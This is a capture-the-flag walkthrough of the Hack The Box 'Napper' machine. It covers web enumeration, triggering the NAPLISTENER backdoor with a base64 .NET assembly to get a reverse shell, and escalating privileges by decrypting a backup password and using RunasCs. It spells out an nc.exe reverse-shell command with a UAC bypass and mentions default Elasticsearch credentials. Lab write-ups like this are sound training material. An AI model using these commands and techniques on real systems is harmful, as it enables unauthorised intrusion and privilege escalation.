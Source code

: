 # PORT SCAN
* **80** &#8594; HTTP (IIS)
* **443** &#8594; HTTPS
* **7680** &#8594; PANDO-PUB

<br><br><br>

# ENUMERATION & USER FLAG
The port 7680 is pretty uncommon and can be used (as standard) for **<u>Pando Media Public Distribution</u>** or **<u>WUDO</u>** (Windows Update Delivery Optimization). I think we will have more info about it just after we performed foothold.

Let's move on the HTTP and HTTPS, according to the nmap scan we have a subdomain `app.napper.htb`

![a3e147a566301000c9cc910d12398928.png](img/a3e147a566301000c9cc910d12398928.png)

The certificate show us the issuer which is another subdomain o the box called `ca.napper.htb`

![cb7c69b3bde0772ef56a1ad7364347bb.png](img/cb7c69b3bde0772ef56a1ad7364347bb.png)

Now the website is similar to a security blog (like github.io) build it with <u>Hugo</u>

![698078d9fc83b2b9dd6a6f7a0ca54c64.png](img/698078d9fc83b2b9dd6a6f7a0ca54c64.png)

All right time to explore, a good part of the blog is based on IIS management (SSL included) and the website itself is used as example

![455416b0ce6337cce50dce628c7e7b9e.png](img/455416b0ce6337cce50dce628c7e7b9e.png)

Cool the blog is splitted in half, basic authentication on IIS systems and high level understanding of Reverse Engineering.

While I was reading I run some instance of dirb and ffuf and we have a new subdomain `internal.napper.htb`

![21e2a49e16e0306fc74b6def5add2ced.png](img/21e2a49e16e0306fc74b6def5add2ced.png)

Here we have the basic authentication in action

![4f01a560018b9c74c6463e5570f88431.png](img/4f01a560018b9c74c6463e5570f88431.png)

Looking at the blog post there is one where used the Powershell to implement basic authentication

![8e9e74570c41a20b4e32eb462e4427f6.png](img/8e9e74570c41a20b4e32eb462e4427f6.png)

It works, we have access here and is the same blog but with a single articl called `**INTERNAL** Malware research notes`

![58e2e4511f05d7ae69cc4551de48f166.png](img/58e2e4511f05d7ae69cc4551de48f166.png)

Time to read, again! The article talk about the [Naplistener](https://www.darkreading.com/threat-intelligence/custom-naplistener-malware-network-based-detection-sleep) malware.

We have this in a code block

> This means that any web request to /ews/MsExgHealthCheckd/ that contains a base64-encoded .NET assembly in the sdafwe3rwe23 parameter will be loaded and executed in memory. It's worth noting that the binary runs in a separate process and it is not associated with the running IIS server directly.

Well that's what I do (as parameter I used `whoami` in base64)

![7862f5dfa6313f0ba7b66bf582e556ca.png](img/7862f5dfa6313f0ba7b66bf582e556ca.png)

We also have a LOG with all the discovery made by the team

![c8f47c925bbf7dcd1f6a3022dd7249d8.png](img/c8f47c925bbf7dcd1f6a3022dd7249d8.png)

Cool so what we know so far is that we need a `.NET assembly` and use it to get a shell, looking at some article online I found the listener's code and what is intersting is the bottom part where manage the parameter 

![f871b31c8d551fda0589ce61038c5001.png](img/f871b31c8d551fda0589ce61038c5001.png)

<br><br>

Now with some trial and error I need to accomplish the listener and trigger a reverse shell 

What I have tried was to usea [C# Rev Shell](https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc) and use `mcs` Command Line Utility in order to create a dll, encoded in base64 and use it as parameter on the POST request but nothing return back to us (same thing with the EXE extension). Something is missing I need more reasearch but I don't think I will find an *"how to trigger NAPLISTENER malware"* lol

I tried a slighty different approach I used this C# code which download a ps1 script containing the powershell reverse shell (base64 encoded edition) and execute it

![87fe30c994e59b551a1126bbdc1ffdca.png](img/87fe30c994e59b551a1126bbdc1ffdca.png)

The key point was the `Run()` class because of the (according to the image above) `assembly.CreateInstance(assembly.GetName().Name + ".Run")`. Cool, than everything goes how is supposed to downloading the powershell script and execute.

Finally my netcat get our reward

![31620a24a45a2130419da001ef95cec7.png](img/31620a24a45a2130419da001ef95cec7.png)

<br><br><br>

# PRIVILEGE ESCALATION
First thing that I have checked are the process that are running in the background and we have the [Elastic Search Service](https://www.elastic.co/elasticsearch/service)

![60344cb5dddba401b3f52c5a2e3d1b94.png](img/60344cb5dddba401b3f52c5a2e3d1b94.png)

Can make sense this service is the one to be abused since Elastic is the company that have discovered and analyzed the NAPLISTENER malware, the version is `8.8.0`

![ac34d78be95006a63f8d2c4441dc1343.png](img/ac34d78be95006a63f8d2c4441dc1343.png)

It doesn't appear to have some known vulnerability, inside the configuration directory of the application we have a yaml file with the port is used for `Elastic Software`

![9a1b7b7be49a400c9ac355152afe9a89.png](img/9a1b7b7be49a400c9ac355152afe9a89.png)

Time to use chisel in order to retrieve the content of the port 9200 and we need to deal with another **<u>Basic Authentication</u>** form, the default credentials for elastic seems to be <u>`elastic:changeme`</u>

I tried to run some hydra bruteforce while I was out for some NPC like things but no response at all, time to use winPEAS and this is interesting

![0ecc9ee29bce66a7e6a4bba5199a5ef5.png](img/0ecc9ee29bce66a7e6a4bba5199a5ef5.png)

Let's see what we have here and we have a `.env` file with the username and password of elastic

![06edeab9a24e46c0349c8e848609fc30.png](img/06edeab9a24e46c0349c8e848609fc30.png)

![3ede635afb3def38674417a54006b5db.png](img/3ede635afb3def38674417a54006b5db.png)

Now we are free to play with elastic :)
Thanks to god [hacktricks have a page just for that](https://book.hacktricks.xyz/network-services-pentesting/9200-pentesting-elasticsearch)

> **<u>Elasticsearch</u>** is a versatile tool for searching, analyzing, and visualizing large volumes of data, particularly when that data is text-heavy or has a significant unstructured component. Its flexibility, scalability, and speed make it suitable for a broad range of applications across various industries

![f635479b88a2e5f02e99998398a3d360.png](img/f635479b88a2e5f02e99998398a3d360.png)

Now will be a good idea to tak the `a.exe` and try to do some RE, this is just intuition apparently everything inside the folder is used for elastisearch so maybe this executable can help us to retrieve something usefull. The executable appear to be written in GO so I installed [this extension](https://github.com/mooncat-greenpy/Ghidra_GolangAnalyzerExtension) for a better RE.

Inside the `main.main` we have the `genKey` function but doesn't seems to be usefull but using `strings` and some patience I found something like this 

![ea3aa65d016a1a89f9b5826a1ac88222.png](img/ea3aa65d016a1a89f9b5826a1ac88222.png)

So maybe is using an AES CFB encryption

I saw before that the `/_search` endpoint can gave us a blob with the seed of what it seems to be the `backup` user password

![91acfdd66aa09fb52a65bc9ecb6394fa.png](img/91acfdd66aa09fb52a65bc9ecb6394fa.png)

It seems it change after a few minutes, using Bard AI I successfully retrieved a GO script that can help me to retrieve the plaintext password given the blob and the seed (according to what we discovered before)

![0e3c77ee59929d1f18694dda27856e1d.png](img/0e3c77ee59929d1f18694dda27856e1d.png)

![a783a37466ccb73f68a8b5876bd85437.png](img/a783a37466ccb73f68a8b5876bd85437.png)

That's cool, now I need to figure out how to change user since there is no WinRM port. [RunasCs.exe](https://github.com/antonioCoco/RunasCs) is what we need and some timing for the password retrieval

![f2ec004c44b67a96eb3e94112934d28a.png](img/f2ec004c44b67a96eb3e94112934d28a.png)

Beautiful now let's see if we can get a shell somehow! Just upload netcat on the windows target machine and I used this line of code

`.\ras.exe backup [PASS] "C:\Users\ruben\Desktop\nc.exe 10.10.14.11 5555 -e cmd.exe" -t 8 --bypass-uac`

![c9fac729f4903d80bcd15c61b9d5ccde.png](img/c9fac729f4903d80bcd15c61b9d5ccde.png)

Cool thing now let's enumerate back and simply we are in the Administrator groups! Cool!

![00257b4355ea13e63f174a75fd8c9e8f.png](img/00257b4355ea13e63f74a75fd8c9e8f.png)
